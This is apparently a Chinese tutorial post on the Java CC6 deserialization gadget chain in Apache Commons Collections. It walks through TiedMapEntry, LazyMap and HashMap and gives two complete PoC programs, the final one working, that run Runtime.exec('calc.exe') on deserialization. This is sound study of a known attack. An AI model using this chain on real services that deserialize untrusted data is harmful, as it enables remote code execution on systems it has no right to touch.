 ```yaml
---
created: '21/11/07'
title: 反序列化篇6
tags:
  - java
  - java安全
  - 反序列化
---
```

# 反序列化篇6
## CC6
反序列化篇5提到了CC1链在java8高版本并不适用，当我们去尝试，会产生报错:`java.lang.annotation.Retention missing element entrySet`。

这是由于`AnnotationInvocationHandler`在高版本中改变了readObject的逻辑，不再使用我们精心构造的`LazyMap`而是使用自己新建的`LinkedHashMap`，导致该对象无法获得`entrySet`的内容，所以会报前面的这个错误。

为了解决高版本的利用问题，我们需要重新构造链的前半部分，寻找是否有其他地方能够调用`LazyMap.get()`方法。

找到的地方是`org.apache.commons.collections.keyvalue.TiedMapEntry`，在其`getValue`方法中调⽤了`this.map.get`，而其`hashCode`，`toString`，`equals`方法都调用了自身的`getValue`方法。

```java
import org.apache.commons.collections.KeyValue;
public class TiedMapEntry implements Entry, KeyValue, Serializable { 
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map; private final Object key;
    public TiedMapEntry(Map map, Object key) { 
        this.map = map; this.key = key;
    }
    public Object getKey() { 
        return this.key;
   }
    public Object getValue() { 
        return this.map.get(this.key);
    }
    // ...
    public int hashCode() { 
    Object value = this.getValue();
    return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^(value == null ? 0 : value.hashCode());
    }
// ... 
}
```
在ysoserial中，是利用了`java.util.HashSet.readObject()`->`HashMap.put()`->`HashMap.hash(key)` ->`TiedMapEntry.hashCode()`。
而实际上，在`java.util.HashMap.readObject()`就有`hash(key)`的操作，我们可以利用此来构造gadget。

### 构造gadget
构造的时候使用了一些技巧，先创建了一个fakeTransformers，在序列化的前一刻才将其替换为真正的Transformers，这样能够防止我们在生成poc时的本地命令执行。
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```
当我们执行这段代码的时候，发现反序列化时并没有弹出来计算器! 这是为什么呢？

### 为什么没有成功执行
我们尝试在`LazyMap.get`方法中下一个断点调试一下，发现问题:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211107114655.png)

我们在构造gadget的时候就触发了`LazyMap.get`方法，导致`LazyMap`的假利用链被提前触发，而当我们真正想要去反序列化时，LazyMap已经存在`keykey`这个键，导致我们无法进入`this.factory.transfrom`这个语句触发我们真正的利用链，但是我们并没有去手动调用`LazyMap.get`，为什么这个方法会触发呢？

我们回顾源码，只有在`TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");`这句话中存在keykey，当我们去查看`HashMap.put`方法时，我们发现了罪魁祸首:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211107115113.png)
当我们构造gadget时会将`TiedMapEntry`手动put到HashMap，导致其触发了`hash(key)`->`TiedMapEntry.hashCode()`->`TiedMapEntry.getValue()`提前触发了我们的链，并且将该key存入了`outerMap`，下次我们真正利用时由于`outerMap`已经存在该key而导致利用链失败!

了解了原因之后我们就很好解决该问题了: 在`objMap.put`之后调用`outerMap.remove`删除该key即可。

### 最终poc
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");
        outerMap.remove("keykey");

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

### 总结
整条链的调用逻辑为:
```
HashMap.readObject()
  hash(key) === key.hashCode() === TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
      LazyMap.get()
         ChainedTransformer.transform()
	      ConstantTransformer.transform() // 获取Runtime.class
	      InvokerTransformer.transform()   // 获取Runtime.getRuntime
	      InvokerTransformer.transform()   // 获取Runtime实例
	      InvokerTransformer.transform()   // 调用exec方法触发rce
```